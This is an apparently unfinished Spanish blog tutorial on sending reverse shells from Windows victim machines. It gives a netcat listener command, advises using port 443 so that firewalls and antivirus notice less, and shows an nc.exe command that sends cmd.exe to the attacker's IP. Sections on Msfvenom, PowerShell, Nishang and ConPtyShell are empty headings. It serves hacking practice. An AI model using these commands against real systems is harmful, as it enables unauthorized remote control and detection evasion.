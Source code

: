 ```yaml
---
layout: single
title: Reverse Shells en Windows
excerpt: "En este artículo vamos a ver las formas que hay de mandarnos reverse shells cuando la maquina victima es Windows."
date: 2022-08-26
classes: wide
header:
  teaser: /assets/images/web-hacking/reverse-shell-windows/netcat.PNG
  teaser_home_page: true
  icon: 
categories:
  - Windows
tags:  
  - Windows
  - Reverse shell
---
```


He hecho este artículo ya que las `reverse shells` en `Windows` son diferentes a Linux y ya que he empezado a aprender Hacking para Windows, ya que en linux ya soy capaz de resolver maquinas sin ayuda pues se me ha ocurrido hacer este post.

# PONERNOS A LA ESCUCHA: 

Lo primero, antes de mandarnos una consola desde la máquina víctima necesitamos un `puerto` donde estemos `a la escucha` para que nos llegue ahí la shell.

Para esto solemos utilizar el puerto `443/tcp`, ya que es un puerto por el cual se transmiten datos en casos de páginas web, ya que es el puerto por el cual suelen correr los servicios `https`. Por lo tanto, los `firewalls y antivirus` `pueden detectar` datos transmitirse por ese puerto, pero `no le dan importancia`, ya que es normal que se manden datos por ahí. Y, por lo tanto, `somos menos detectables`.

Para esto utilizaremos el siguiente `comando` estando en `root`:

```
> nc -nlvp 443
listening on [any] 443 ...
```

## FORMA MEJORADA

Por lo que he estado viendo hay un comando que funciona mejor ya que nos permite utilizar atajos de teclado como `Ctl+L`:

```
> rlwrap nc -nlvp 443
listening on [any] 443 ...
```

![](/assets/images/web-hacking/reverse-shell-windows/)

# MANDARNOS UNA REVERSE SHELL
## Nc.exe

Este binario es `similar a netcat` en `Linux`, pero este funciona en `Windows`, tanto en 32, como en 64 bits.

Para esto usaremos el siguiente comando:

```
> nc.exe -e cmd.exe <nuestra ip> 443
```

## Msfvenom

## Powershell Reverse Shell One-Liner

## Nishang

## ConPtyShell
